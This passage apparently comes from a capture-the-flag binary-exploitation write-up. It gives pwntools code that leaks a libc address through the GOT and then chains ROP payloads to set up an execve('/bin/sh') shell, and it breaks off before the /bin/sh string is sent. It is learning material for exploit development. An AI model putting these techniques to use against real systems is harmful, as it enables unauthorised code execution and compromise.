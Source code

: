 ```python3
payload += b"\n"

p.send(payload)

input("Press Enter to send next payload\n")

struct_payload = p64(0x403fc8)   # Address of the .got table
struct_payload += p64(0x8)       # 8 bytes to read
struct_payload += b"\x00" * 4    # Padding to get the total length to 0x14

p.send(struct_payload)

lib = ELF("libc.so.6")
libc_address = int.from_bytes(p.recv(), byteorder="little")
lib.address = libc_address - lib.symbols["__libc_start_main"]
```

### libc ROP chaining
Now that we have the address of libc, we can perform a simple execve("/bin/sh") rop chain. Because we are
running out of space (we are limited to `0x80` bytes per payload), we will redirect execution to main to
read in a new rop chain.

We will add the address to the end of our first payload:

```python3
payload += p64(0x401107)
```

This allows us to construct and send a second ropchain. The first thing we must do is place
the `/bin/sh` string into the data section so we can reference it for our execve call. We will do this by
calling the `pop rbp` instruction, placing the .data address into `RBP`, and then calling read. 

We will also add another call to read in a third ropchain because we are running out of space on this one as well.

```python3
input("Press Enter to send next payload\n")

second_payload = b"\x90" * 40     # Padding
second_payload += p64(0x4010ed)   # Address of pop rbp
second_payload += p64(0x404020)   # new rbp value: .data + 0x20
second_payload += p64(0x40110a)   # Address to read call
second_payload += p64(0xdeadbeef) # Garbage RBP value
second_payload += p64(0x401107)   # Read in third rop chain
second_payload += b"\n"

p.send(second_payload)
```

Now we will send the `/bin/sh` string.
